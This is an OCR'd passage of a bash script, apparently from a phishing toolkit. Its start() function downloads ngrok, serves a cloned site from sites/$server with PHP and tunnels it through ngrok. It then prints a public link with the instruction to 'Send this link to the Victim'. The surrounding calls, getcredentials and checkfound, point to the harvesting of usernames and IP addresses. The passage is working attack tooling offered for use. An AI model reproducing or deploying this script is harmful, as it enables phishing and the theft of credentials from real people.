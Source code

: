  getcredentials 
 } 
  
 start() { 
 if [[ -e sites/$server/ip.txt ]]; then 
 rm -rf sites/$server/ip.txt 
  
 fi 
 if [[ -e sites/$server/usernames.txt ]]; then 
 rm -rf sites/$server/usernames.txt 
  
 fi 
  
  
 if [[ -e ngrok ]]; then 
 echo "" 
 else 
  
 printf "\e[1;92m[\e[0m*\e[1;92m] Downloading Ngrok...\n" 
 arch=$(uname -a | grep -o 'arm' | head -n1) 
 arch2=$(uname -a | grep -o 'Android' | head -n1) 
 if [[ $arch == 'arm' ]] || [[ $arch2 == 'Android' ]] ; then 
 wget https://bin.equinox.io/c/4VmDzA7iaHb/ngrok-stable-linux-arm.zip > /dev/null 2>&1 
  
 if [[ -e ngrok-stable-linux-arm.zip ]]; then 
 unzip ngrok-stable-linux-arm.zip > /dev/null 2>&1 
 chmod +x ngrok 
 rm -rf ngrok-stable-linux-arm.zip 
 else 
 printf "\e[1;93m[!] Download error... Termux, run:\e[0m\e[1;77m pkg install wget\e[0m\n" 
 exit 1 
 fi 
  
  
  
 else 
 wget https://bin.equinox.io/c/4VmDzA7iaHb/ngrok-stable-linux-386.zip > /dev/null 2>&1  
 if [[ -e ngrok-stable-linux-386.zip ]]; then 
 unzip ngrok-stable-linux-386.zip > /dev/null 2>&1 
 chmod +x ngrok 
 rm -rf ngrok-stable-linux-386.zip 
 else 
 printf "\e[1;93m[!] Download error... \e[0m\n" 
 exit 1 
 fi 
 fi 
 fi 
  
 printf "\e[1;92m[\e[0m*\e[1;92m] Starting php server...\n" 
 cd sites/$server && php -S 127.0.0.1:3333 > /dev/null 2>&1 &  
 sleep 2 
 printf "\e[1;92m[\e[0m*\e[1;92m] Starting ngrok server...\n" 
 ./ngrok http 3333 > /dev/null 2>&1 & 
 sleep 10 
  
 link=$(curl -s -N http://127.0.0.1:4040/status | grep -o "https://[0-9a-z]*\.ngrok.io") 
 printf "\e[1;92m[\e[0m*\e[1;92m] Send this link to the Victim:\e[0m\e[1;77m %s\e[0m\n" $link 
 checkfound 
 } 
 checkfound() { 
  